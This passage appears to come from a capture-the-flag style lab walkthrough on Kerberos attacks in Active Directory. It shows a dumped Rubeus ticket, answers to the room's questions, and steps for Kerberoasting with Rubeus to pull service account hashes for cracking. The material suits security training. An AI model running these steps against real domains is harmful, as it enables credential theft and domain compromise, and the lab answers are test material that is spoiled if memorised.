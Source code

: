 ```
      BhCKh6p+ajtiexGF4M+rq+OcrcP5Bpa270v1RgNp+CNmI6Ch0FGR9TfmqyrSglBS0x7rpav5sJCfY424
      CxrHP19s+yFcTplZyrV8R0PZo9v5wRI2X3jyh5A8M4vJh+LXbyj87qRlA2A4SN9wdCNtWhKaVp4lUXmG
      uyE5/S/66EGTnZhaQmBs6GwWU5EIzugMNASQzNre85JMWEbSOa1+Ra8olzrRB9MY9xBF5XfI0MMbmFVv
      suUohNK7rOM3K2FcaiqFemeKff5TM2sBycg1gxnymLS7gGCjLD1+3hjxrIKxVoQ4Wx0f4uxAcginu6FG
      2tSpP5wZD83e6J0CQ5TuE48iOpmrVT4vaYmGIB2uvLop7N2jU6cKChkn5YgsKQsIjr2ptz0r8PJYqF+V
      KbeUdyFGm3aOpHmUIqsvTXjmbZpvfSlYYyzYKoKy2yj6MDT/RHW0H6iyKY3hycG8YP/rwdyV5rX69Hfg
      bRNywS4M7RRMyoVlNhe3JS4tHT6Badv6oTzayF7E6XNz16Uapmf1GYScFKQx4jGOyqOB8jCB76ADAgEA
      ooHnBIHkfYHhMIHeoIHbMIHYMIHVoCswKaADAgESoSIEIN4YfyDfL5jwA/mtcca1E077mgxDNZGCj+hj
      i/tQETEroRIbEENPTlRST0xMRVIuTE9DQUyiFTAToAMCAQGhDDAKGwhNYWNoaW5lMaMHAwUAQOEAAKUR
      GA8yMDIxMDQyNDA4MDc0MlqmERgPMjAyMTA0MjQxODA3NDJapxEYDzIwMjEwNTAxMDgwNzQyWqgSGxBD
      T05UUk9MTEVSLkxPQ0FMqSUwI6ADAgECoRwwGhsGa3JidGd0GxBDT05UUk9MTEVSLmxvY2Fs



[+] Done
```

Be mindful of how you use this attack as it may lock you out of the network depending on the account lockout policies.

Which domain admin do we get a ticket for when harvesting tickets?

`Administrator`

Which domain controller do we get a ticket for when harvesting tickets?

`CONTROLLER-1`

## Task 4 Kerberoasting w/ Rubeus & Impacket

In this task we'll be covering one of the most popular Kerberos attacks - Kerberoasting. Kerberoasting allows a user to request a service ticket for any service with a registered SPN then use that ticket to crack the service password. If the service has a registered SPN then it can be Kerberoastable however the success of the attack depends on how strong the password is and if it is trackable as well as the privileges of the cracked service account. To enumerate Kerberoastable accounts I would suggest a tool like BloodHound to find all Kerberoastable accounts, it will allow you to see what kind of accounts you can kerberoast if they are domain admins, and what kind of connections they have to the rest of the domain. That is a bit out of scope for this room but it is a great tool for finding accounts to target.

In order to perform the attack, we'll be using both Rubeus as well as Impacket so you understand the various tools out there for Kerberoasting. There are other tools out there such a kekeo and Invoke-Kerberoast but I'll leave you to do your own research on those tools.

I have already taken the time to put Rubeus on the machine for you, it is located in the downloads folder.

**Method 1 - Rubeus**

**Kerberoasting w/ Rubeus -**

1. `cd Downloads` - navigate to the directory Rubeus is in
2. `Rubeus.exe kerberoast` This will dump the Kerberos hash of any kerberoastable users

![](https://i.imgur.com/XZegVqf.png)

